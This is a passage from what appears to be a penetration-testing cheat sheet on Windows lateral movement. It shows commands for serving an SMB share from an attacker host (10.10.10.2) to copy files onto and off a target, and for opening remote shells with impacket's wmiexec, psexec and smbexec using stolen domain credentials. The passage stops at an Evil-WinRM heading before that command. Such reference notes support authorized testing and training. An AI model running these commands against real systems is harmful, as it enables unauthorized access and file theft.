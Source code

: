 #### SMB

In case of needing file upload and file download, we will create an `SMB` shared folder:

```bash
impacket-smbserver smbFolder $(share) -smb2support
```

Then, we can use the following command in the target machine to download the file:

```powershell
copy \\10.10.10.2\smbFolder\file
```

If we want to upload files to the shared `SMB` folder, we can mount it. To do this:

```powershell
net use x: \\10.10.10.2\smbFolder\
net use # Para listar los recursos compartidos en red
copy file X:\file
```

If we want to unmount the shared folder:

```powershell
net use x: /delete
```

### Understanding WMI and Powershell Remoting

#### WmiExec

Once we have valid credentials we can obtain a shell in the target machine using `wmi`:

```bash
wmiexec.py domain.local/user:password@10.10.10.1 cmd.exe
```

### PsExec

Once we have valid credentials we can obtain a `powershell` in the target machine:

```bash
psexec.py domain.local/user:password@10.10.10.1
```

### SmbExec

Once we have valid credentials and having the `SMB` service available, we can obtain a shell in the target machine:

```bash
smbexec.py domain.local/user:password@10.10.10.1 cmd.exe
```

#### Evil-WinRM

In the case we have the `WinRM` service available in the target machine and we have valid credentials, we can connect to it using the following command:
